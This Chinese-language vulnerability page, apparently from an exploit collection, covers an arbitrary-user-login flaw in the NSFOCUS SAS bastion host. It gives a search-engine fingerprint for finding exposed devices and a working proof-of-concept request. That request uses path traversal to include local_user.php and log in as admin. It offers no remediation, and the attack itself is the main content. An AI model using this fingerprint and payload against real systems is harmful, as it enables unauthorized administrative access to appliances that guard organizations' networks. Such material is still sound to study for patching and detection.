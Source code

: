 # 绿盟 SAS堡垒机 local_user.php 任意用户登录漏洞

## 漏洞描述

绿盟堡垒机存在任意用户登录漏洞，攻击者通过漏洞包含 www/local_user.php 实现任意⽤户登录

## 漏洞影响

<a-checkbox checked>绿盟 SAS堡垒机</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="'/needUsbkey.php?username='"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1687843929584-e793a136-93ec-4b19-8ee9-5738c91681e8-20230810132919858.png)

验证POC

```plain
/api/virtual/home/status?cat=../../../../../../../../../../../../../../usr/local/nsfocus/web/apache2/www/local_user.php&method=login&user_account=admin
```

![img](../../../.vuepress/public/img/1687844048220-9698fde6-1bdd-4068-bfa6-c5bdda190d42-20230810132919979.png)